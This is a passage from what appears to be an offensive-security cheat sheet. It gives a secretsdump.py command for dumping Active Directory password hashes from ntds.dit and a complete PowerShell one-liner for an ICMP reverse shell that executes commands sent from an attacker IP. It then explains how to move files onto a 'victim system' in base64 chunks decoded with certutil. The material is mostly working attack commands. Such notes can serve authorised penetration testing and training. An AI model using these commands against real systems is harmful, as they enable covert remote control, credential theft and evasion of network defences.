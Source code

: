 ```none
python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL
```

#### ICMP Shell

Sometimes, inbound and outbound traffic from any port is disallowed and only ICMP traffic is allowed. In that case, we can use [Simple reverse ICMP Shell](https://github.com/inquisb/icmpsh) However, this requires the executable to be present on the system. There's a powershell version of [ICMP Reverse Shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1) Sometimes, probably, we can execute powershell code on the machine. In that case, we can use the one-liner powershell code to execute the shell.

```none
powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"
```

The above code is basically a reduced version of the powershell version of ICMP and have a limited buffer (which means commands whose output is greater than the buffer, won't be displayed!). Now, there's a painful way of transferring files to the victim system which is

- Convert the file/ code which needs to be transferred in to base64. (If possible, remove all the unnecessary code/ comments, this would help us to reduce the length of the base64). Do make sure that your base64 when converted back is correct! Refer [PowerShell –EncodedCommand and Round-Trips](https://blogs.msdn.microsoft.com/timid/2014/03/26/powershell-encodedcommand-and-round-trips/)
- Utilize the [Add-Content cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-5.1) to transfer the file to the victim system. Do, remember to transfer the data in chunks as we have limited buffer! Probably, we have to run the below command twice or thrice to transfer the whole base64-encoded chunk.

```none
Add-Content <filename> "Base64 encoded content"
```

- Once the base64-encoded data is transferred, we can utilize [certutil](https://technet.microsoft.com/en-us/library/cc732443(v=ws.11).aspx) from Microsoft to decode the base64-encoded to normal file.

```none
certutil <-decode/ -encode> <input file> <output file>
-decode Decode a Base64-encoded file
-encode Encode a file to Base64
```

- Now, we can execute the file (assuming powershell ps1 file) to get the full powershell ICMP reverse shell with buffer management so, we would be able to get full output of the commands.

- Now, most of the time after getting the intial shell, probably, we would have figured out user credentials ( let's say from www-data or iisapppool user to normal/ admin user credentials. ) At this point of time, we can use the below code to create a PSCredential.
